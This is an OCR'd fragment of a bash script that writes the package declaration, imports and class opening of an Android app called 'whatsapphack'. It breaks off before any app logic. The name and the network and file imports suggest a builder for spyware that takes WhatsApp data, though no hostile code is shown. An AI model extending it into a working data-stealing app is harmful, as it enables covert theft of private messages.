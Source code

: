 createapp() {

lazy='\'

if [[ ! -d app/app/src/main/java/com/whatsapphack/ ]]; then
mkdir -p app/app/src/main/java/com/whatsapphack/
fi

printf "package com.whatsapphack;\n" > app/app/src/main/java/com/whatsapphack/MainActivity.java

printf "import android.content.pm.PackageManager;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.app.Activity;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.support.v4.app.ActivityCompat;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.support.v4.content.ContextCompat;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.support.v7.app.AppCompatActivity;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.io.DataInputStream;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.io.DataOutputStream;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.io.File;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.io.FileInputStream;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.io.IOException;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.net.HttpURLConnection;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.net.URL;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.annotation.SuppressLint;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.app.Activity;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.content.Intent;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.net.Uri;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.os.Bundle;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.os.StrictMode;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.util.Log;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.view.Menu;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.view.MenuItem;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import android.widget.Toast;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import org.apache.commons.io.FileUtils;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import org.apache.commons.io.filefilter.TrueFileFilter;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.io.IOException;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "import java.util.List;\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "@SuppressLint(\"NewApi\")\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "public class MainActivity extends Activity\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
printf "  {\n" >> app/app/src/main/java/com/whatsapphack/MainActivity.java
